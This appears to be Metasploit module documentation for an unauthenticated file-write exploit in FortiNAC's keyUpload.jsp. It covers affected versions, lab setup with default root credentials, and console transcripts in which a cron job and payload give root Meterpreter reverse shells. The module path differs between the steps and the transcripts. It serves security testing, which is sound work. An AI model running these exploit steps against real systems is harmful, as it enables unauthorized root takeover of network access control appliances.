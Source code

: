 ## Vulnerable Application

This module uploads a payload to the `/tmp` directory in addition to a cron job to `/etc/cron.d` which executes the payload
in the context of the `root` user.

The core vulnerability is an arbitrary file write issue in `/configWizard/keyUpload.jsp` which is accessible remotely and without
authentication. When you send this endpoint a ZIP file, it will extract an an attacker controlled file to directory
on the system of the attacker's choice.

This issue is exploitable on the following versions of FortiNAC:

- FortiNAC version 9.4 prior to 9.4.1
- FortiNAC version 9.2 prior to 9.2.6
- FortiNAC version 9.1 prior to 9.1.8
- FortiNAC 8.8 all versions
- FortiNAC 8.7 all versions
- FortiNAC 8.6 all versions
- FortiNAC 8.5 all versions
- FortiNAC 8.3 all versions

### Setup

Navigate to https://www.fortinet.com/demo-center/nac-demo to obtain a FortiNAC free product demo. Fill out the
necessary fields in order to download: first name, last name, job function, job level, company, email address, phone
number, state, zip/postal code. You'll receive a confirmation email, click the link in the email in order to access the
free product download.

Import the OVF file into your virtualization software of choice. Personally, I had success using VMware Fusion. Change the network
interface from Bridged to Host Only. Once the machine turns on, log in with the following default credentials as outlined
in the [VMware Virtual Machine Installation Guide](https://fortinetweb.s3.amazonaws.com/docs.fortinet.com/v2/attachments/920a0000-200d-11e9-b6f6-f8bc1258b856/fortinac-vmware-install-85.pdf):

```
Username: root
Password: 162PemBnI
```

Once authenticated successfully, statically set the IP Address of the machine:

`configIP 192.168.123.11 255.255.255.0 192.168.123.1`

Navigate to the directory where the license file resides, and then start a Python SimpleHTTPServer web server to
host files from this directory using the following commands:

```
cd /bsc/campusMgr
python -m SimpleHTTPServer 9099
```

On your local machine download the license file from the Python server started above:

`wget -O licenseKey http://192.168.123.11:9099/.licenseKey`

On your local machine, open the browser of your choice and navigate to:

`https://192.168.123.11:8443/gui`

Authenticate with the default username and password:

```
Username: root
Password: YAMS
```

Follow the installation steps, everything should be straight forward. When asked for the license key, provide
the `.licenseKey` file you downloaded from the Python HTTP server. Set the hostname to `localhost`.
The domain can be set to `localhost.localdomain`. You will be required to change the default passwords from the
GUI and once complete, restart the machine. You should now have a vulnerable instance of FortiNAC configured.

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/multi/http/fortinac_keyupload_file_upload`
1. Set the `RHOST` and `LHOST` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### FortiNAC 9.4.0 CMD Target

```
msf6 > use exploit/linux/http/fortinac_keyupload_file_write
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set rhosts 192.168.123.11
rhosts => 192.168.123.11
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set lport 4044
lport => 4044
msf6 exploit(linux/http/fortinac_keyupload_file_write) > run

[*] Started reverse TCP handler on 192.168.123.1:4044
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Target indicated a successful upload occurred!
[*] Sending zipped cron job to /configWizard/keyUpload.jsp
[*] Waiting for cron job to run
[*] Sending stage (24772 bytes) to 192.168.123.11
[*] Meterpreter session 1 opened (192.168.123.1:4044 -> 192.168.123.11:59938) at 2023-03-09 17:01:02 -0500
[!] This exploit may require manual cleanup of '/etc/cron.d/ZlzEXbWF' on the target

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer        : localhost.localhost.localdomain
OS              : Linux 3.10.0-1160.53.1.el7.x86_64 #1 SMP Fri Jan 14 13:59:45 UTC 2022
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter >
```

### FortiNAC 9.4.0 Linux x64 Target
```
msf6 > use exploit/linux/http/fortinac_keyupload_file_write
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/fortinac_keyupload_file_write) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   CMD
    1   Linux x86
    2   Linux x64


msf6 exploit(linux/http/fortinac_keyupload_file_write) > set target 2
target => 2
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set rhosts 192.168.123.11
rhosts => 192.168.123.11
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set lport 9909
lport => 9909
msf6 exploit(linux/http/fortinac_keyupload_file_write) > run

[*] Started reverse TCP handler on 192.168.123.1:9909
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Target indicated a successful upload occurred!
[*] Sending zipped payload to /configWizard/keyUpload.jsp
[*] Sending zipped cron job to /configWizard/keyUpload.jsp
[*] Waiting for cron job to run
[*] Sending stage (3045348 bytes) to 192.168.123.11
[*] Meterpreter session 3 opened (192.168.123.1:9909 -> 192.168.123.11:38266) at 2023-03-09 17:31:01 -0500
[!] This exploit may require manual cleanup of '/tmp/HcYciseH' on the target
[!] This exploit may require manual cleanup of '/etc/cron.d/DsxejZgV' on the target

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localhost.localdomain
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.53.1.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

